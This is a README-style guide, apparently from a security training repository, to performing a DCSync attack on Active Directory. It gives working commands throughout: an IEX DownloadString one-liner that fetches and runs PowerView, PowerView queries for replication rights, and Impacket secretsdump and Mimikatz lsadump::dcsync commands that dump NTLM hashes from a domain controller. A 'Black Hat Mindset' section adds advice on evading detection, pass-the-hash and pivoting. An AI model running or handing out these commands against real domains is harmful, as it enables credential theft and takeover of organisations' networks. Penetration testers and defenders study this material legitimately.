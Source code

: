 # Active Directory DCSync Attack README

This README focuses on performing a DCSync attack to extract credentials (e.g., NTLM hashes) from a domain controller by abusing replication rights.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Identifying Replication Rights](#identifying-replication-rights)
- [Performing the DCSync Attack](#performing-the-dcsync-attack)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

A DCSync attack allows an attacker to impersonate a domain controller and request user credential data (e.g., NTLM hashes) by exploiting Active Directory replication rights (e.g., `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`). This guide covers PowerView to identify replication rights, and Impacket and Mimikatz to execute the attack. Commands are performed from Windows or Linux hosts, assuming you have compromised credentials with sufficient privileges.

## Setup and Prerequisites

- **Environment**: Windows host for PowerView and Mimikatz, Linux host for Impacket.
- **PowerView**: Load into memory on Windows:
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
  ```
- **Impacket**: Install on Linux:
  ```bash
  pip install impacket
  ```
- **Mimikatz**: Download the Mimikatz executable on Windows (e.g., from its GitHub repo) and place it in your working directory (e.g., `C:\Tools\`).
- **PowerShell**: Run with administrative privileges on Windows (right-click > "Run as Administrator").
- **Credentials**: Use compromised credentials (e.g., `INLANEFREIGHT\adunn`) with replication rights or sufficient privileges to access the domain controller.

## Identifying Replication Rights

Use PowerView to identify users with replication rights, a prerequisite for a successful DCSync attack.

```powershell
# Enumerate user information
Get-DomainUser -Identity adunn | select samaccountname,objectsid,memberof,useraccountcontrol | fl

# Check replication rights
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType | fl
```

## Performing the DCSync Attack

Execute the DCSync attack to extract NTLM hashes from the domain controller.

```bash
# Using Impacket (Linux)
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss
```

```powershell
# Using Mimikatz (Windows)
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

## Black Hat Mindset

- **Target Privileged Users**: Focus on users with replication rights (e.g., members of Domain Admins or Enterprise Admins).
- **Stay Silent**: Perform the attack without modifying the domain to avoid detection by monitoring tools.
- **Use the Hashes**: Extracted NTLM hashes can be used for pass-the-hash attacks or cracking for plaintext passwords.
- **Expand Access**: Leverage the extracted credentials to pivot to other domain controllers or high-value targets.

## Resources

- [PowerView Documentation](#)
- [Impacket Guide](#)
- [Mimikatz DCSync](#)
- [DCSync Attack Explained](#)

